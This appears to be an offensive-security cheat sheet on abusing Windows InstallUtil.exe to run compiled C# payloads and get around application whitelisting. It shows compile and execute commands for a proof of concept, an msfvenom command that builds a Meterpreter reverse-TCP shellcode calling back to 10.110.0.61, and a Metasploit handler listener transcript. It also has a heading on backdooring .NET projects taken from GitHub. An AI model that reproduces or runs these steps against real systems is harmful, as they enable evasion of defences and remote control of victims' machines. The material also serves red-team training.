



# InstallUtil

## InstallUtil usage

### Compile cs file using csc.exe, then execute the created dll with installutil.exe



### Calc POC

Require c\# code which needs to be compiled with csc.exe

* **Compile the file to get a dll**

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /target:library payload.cs`

* **Execute the payload**

`C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logtoconsole=false /u payload.dll`

### Get a shell

* \*\*Create a csharp meterpreter shellcode \*\*

`msfvenom -p windows/meterpreter/reverse_tcp -f csharp LHOST=10.110.0.61 LPORT=9001`

* **Set up the listener**

```text
msf5 > use exploit/multi/handler 
msf5 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > set LPORT 9001
LPORT => 9001
msf5 exploit(multi/handler) > set LHOST 10.110.0.61
LHOST => 10.110.0.61
msf5 exploit(multi/handler) > 
```


* **Edit the cs file**



* **Compile and execute**

 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /unsafe /target:library C:\ClassFiles\awl_course_content\installutil\metasploit.cs`

 `C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /logconsole=false /u .\metasploit.dll`

## Use an existing .NET project and backdoor it <a id="use-an-existing-net-project-and-backdoor-it"></a>

* .Net project

[https://github.com/trending/c%23](https://github.com/trending/c%23)

* Add uninstall function



